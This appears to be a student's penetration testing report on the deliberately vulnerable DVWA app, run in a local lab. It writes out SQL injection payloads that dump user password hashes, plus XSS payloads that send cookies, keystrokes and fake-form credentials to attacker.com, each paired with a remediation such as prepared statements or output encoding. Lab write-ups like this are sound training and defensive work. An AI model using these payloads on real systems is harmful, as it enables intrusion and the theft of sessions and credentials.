






# Penetration Testing Report - DVWA

> Identifying and exploiting SQL Injection and XSS vulnerabilities in a controlled lab environment

[](https://github.com/Fredrickighile/penetration-testing-dvwa)
[](https://owasp.org/www-project-top-ten/)

**Key Achievement:** Successfully identified and exploited critical SQL Injection (CVSS 9.8) and XSS vulnerabilities, extracted database credentials, and documented remediation strategies.

---

## Project Overview

Conducted penetration testing on DVWA (Damn Vulnerable Web Application) to identify security vulnerabilities and demonstrate exploitation techniques. Testing revealed critical flaws allowing complete database access and client-side code execution.

**Test Environment:**

- Application: DVWA on XAMPP (Apache + MySQL)
- Security Level: LOW
- Testing Approach: Manual exploitation with systematic documentation
- Date: January 11, 2026

---

## Vulnerabilities Discovered

### 1. SQL Injection - CRITICAL (CVSS 9.8)

**What I Found:** The application inserts user input directly into SQL queries without validation, allowing database manipulation through crafted input.

---

#### Exploitation Steps

**Test 1: Baseline**

Input: `1`

Result: Returns user ID 1 data (expected behavior)



---

**Test 2: Boolean-Based Injection**

Input: `1' OR '1'='1`

**How this works:**

- The single quote (`'`) closes the original SQL string
- `OR '1'='1'` adds a condition that's always true
- The query becomes: "SELECT \* FROM users WHERE id = '1' OR '1'='1'"
- Since '1'='1' is always true, ALL users are returned

Result: Extracted all users from database



**Users extracted:**

- admin / admin
- Gordon / Brown
- Hack / Me
- Pablo / Picasso
- Bob / Smith

---

**Test 3: Database Enumeration**

Input: `1' UNION SELECT NULL, database() #`

**How this works:**

- `UNION` allows combining results from multiple queries
- `database()` is a MySQL function that returns the current database name
- `#` comments out the rest of the original query to avoid syntax errors

Result: Database name disclosed as `dvwa`



---

**Test 4: Credential Extraction**

Input: `1' UNION SELECT user, password FROM users #`

**How this works:**

- Directly queries the users table
- Selects username and password columns
- Returns all credentials in the database

Result: Extracted all password hashes



**Credentials obtained:**

```
admin  → 5f4dcc3b5aa765d61d8327deb882cf99 (MD5)
gordonb → e99a18c428cb38d5f260853678922e03
1337   → 8d3533d75ae2c3966d7e0d4fcc69216b
pablo  → 0d107d09f5bbe40cade3de5c71e9e9b7
smithy → 5f4dcc3b5aa765d61d8327deb882cf99
```

These MD5 hashes can be cracked using tools like hashcat or online databases.

---

#### Impact Assessment

**Technical Impact:**

- Full database read access (all tables and data)
- Potential write/delete capabilities
- Authentication bypass (login without credentials)
- Privilege escalation to admin level

**Business Impact:**

- Complete data breach (user PII, passwords, payment data)
- Regulatory violations (GDPR fines up to €20M or 4% revenue)
- Reputational damage and loss of customer trust
- Potential for ransomware/data extortion

---

#### Remediation

**Primary Fix: Use Prepared Statements**

```php
// VULNERABLE (current implementation)
$query = "SELECT * FROM users WHERE user_id = '$id'";
$result = mysqli_query($connection, $query);

// SECURE (recommended fix)
$stmt = $pdo->prepare("SELECT * FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

Prepared statements separate SQL code from data, preventing injection.

**Additional Defenses:**

- Input validation (verify user_id is numeric)
- Least privilege database accounts (read-only when possible)
- Web Application Firewall (ModSecurity or similar)
- Regular security audits and code reviews

---

### 2. Cross-Site Scripting (XSS) - HIGH (CVSS 7.3)

**What I Found:** User input is displayed on the page without encoding, allowing JavaScript injection that executes in the browser.

---

#### Exploitation

**Test: JavaScript Injection**

Input: `<script>alert('XSS Vulnerability!')</script>`

**What happens:**

1. Application takes my input
2. Embeds it directly in HTML without encoding
3. Browser interprets `<script>` tags as code, not text
4. My JavaScript executes

**Before:**



**After:**



The popup proves arbitrary code execution.

---

#### Real-World Attack Scenarios

**Session Hijacking:**

```javascript
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie);</script>
```

Sends victim's session cookie to attacker's server. Attacker can then impersonate the victim.

**Keylogging:**

```javascript
<script>
document.onkeypress = function(e) {
  fetch('http://attacker.com/log?key=' + e.key);
}
</script>
```

Records every keystroke (passwords, credit cards, personal info).

**Credential Theft:**

```javascript
<script>
document.body.innerHTML = '<form action="http://attacker.com/phish">Username: <input name="user"><br>Password: <input name="pass" type="password"><br><button>Login</button></form>';
</script>
```

Replaces page content with fake login form that sends credentials to attacker.

---

#### Impact Assessment

**Technical Impact:**

- Session token theft (account takeover)
- Arbitrary JavaScript execution in user context
- DOM manipulation (page defacement)
- Credential harvesting through fake forms

**Business Impact:**

- Mass account compromise
- Malware distribution to users
- Phishing attacks using trusted domain
- Loss of user confidence

---

#### Remediation

**Primary Fix: Output Encoding**

```php
// VULNERABLE
echo "Hello " . $_GET['name'];

// SECURE
echo "Hello " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
```

`htmlspecialchars()` converts `<` to `&lt;`, so browsers display it as text instead of executing it as code.

**Additional Defenses:**

- Content Security Policy (CSP) headers to restrict script sources
- HTTPOnly flag on cookies (prevents JavaScript access)
- Input validation (reject suspicious patterns)
- Use frameworks with auto-escaping (React, Angular, Vue)

---

## Tools & Environment

| Tool          | Purpose                                                        |
| ------------- | -------------------------------------------------------------- |
| DVWA          | Intentionally vulnerable web application for security training |
| XAMPP 8.2.12  | Local web server (Apache + MySQL)                              |
| Google Chrome | Manual testing and payload execution                           |
| VS Code       | Documentation and report writing                               |

---

## Testing Methodology

**Approach:**

1. Information gathering (identify input points)
2. Baseline testing (understand normal behavior)
3. Injection testing (test various payloads)
4. Exploitation (demonstrate impact)
5. Documentation (screenshots and explanation)

**Security Level:** LOW (basic defenses disabled for learning purposes)

---

## What I Learned

**Technical Skills:**

- SQL injection mechanics (boolean-based, UNION-based)
- Database enumeration techniques
- XSS exploitation and payload development
- Security impact assessment
- Vulnerability remediation strategies

**Professional Skills:**

- Penetration testing methodology
- Technical report writing
- Risk assessment and CVSS scoring
- Proof-of-concept development
- Clear communication of technical concepts

---

## Limitations & Future Work

**Current Scope:**

- Testing performed on LOW security level
- Manual exploitation (no automated scanning)
- Limited to SQL Injection and XSS modules

**Next Steps:**

- Test MEDIUM and HIGH security levels
- Explore blind SQL injection techniques
- Test additional DVWA modules (Command Injection, File Upload, CSRF)
- Integrate Burp Suite for automated discovery
- Develop custom Python exploit scripts

---

## Key Takeaways

1. **Input validation is critical** - Never trust user input
2. **Use prepared statements** - They prevent 99% of SQL injection attacks
3. **Encode all output** - XSS prevention requires proper output encoding
4. **Defense in depth** - Multiple security layers reduce risk
5. **Documentation matters** - Clear reports help teams fix vulnerabilities

---

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DVWA GitHub Repository](https://github.com/digininja/DVWA)

---

## Author

**Fredrick Ighile**  
Cybersecurity Specialist

[](https://linkedin.com/in/fredrick-ighile-968403280/)
[](https://github.com/Fredrickighile)
[](https://fredrick-ighile.vercel.app/)

📧 fredrick.ighile@miva.edu.ng

**Date Completed:** January 11, 2026

---

<div align="center">

**If this project helped you understand penetration testing, please star this repository!**

[⬆ Back to Top](#penetration-testing-report---dvwa)

</div>
